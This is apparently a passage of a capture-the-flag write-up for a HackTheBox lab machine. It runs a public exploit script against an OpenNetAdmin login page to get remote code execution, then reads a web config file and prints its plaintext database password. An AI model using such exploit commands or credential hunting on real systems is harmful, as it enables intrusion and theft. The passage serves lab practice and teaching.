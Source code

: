 After reviewing the code of this exploit, i see that i can run `./47691.sh http://10.10.10.171/ona/login.php` to get RCE<br/>

> **Note**: i got the `/ona` when i pressed login button ,this exploit is for the ona login page

![info](https://raw.githubusercontent.com/0xyassine/0xyassine.github.io/master/assets/img/htb/open/rce.jpg)

## Getting ssh shell

After spending some time searching for a clue,i decided to take a look at the web root directory: `ls /var/www/html/ona/local/config/`<br/>
i found interested file called `database_settings.inc.php`,this php file contain a password: `n1nj4W4rri0R!`<br/>

```
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
